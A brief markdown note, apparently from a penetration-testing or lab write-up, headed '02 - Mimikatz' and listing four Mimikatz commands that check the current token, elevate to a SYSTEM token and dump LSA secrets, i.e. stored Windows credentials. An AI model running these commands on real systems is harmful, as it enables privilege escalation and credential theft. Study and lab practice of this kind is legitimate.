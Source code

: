 # 02 - Mimikatz

```
mimikatz # token::whoami

mimikatz # token::elevate

mimikatz # token::whoami

mimikatz # lsadump::secrets
```